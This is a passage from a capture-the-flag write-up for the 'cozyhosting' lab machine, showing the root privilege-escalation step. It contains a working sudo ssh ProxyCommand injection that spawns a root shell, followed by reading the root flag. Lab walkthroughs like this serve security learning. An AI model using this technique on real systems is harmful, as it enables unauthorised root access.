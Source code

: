 Let's find a way to escalate our privileges to root.

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ 
```

There is a simple [exploit](https://gtfobins.github.io/gtfobins/ssh/#sudo) of `ssh` which can be used to escalate our privileges to root.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
15c991fe8d6834aa894f6ab6b8e1617f
```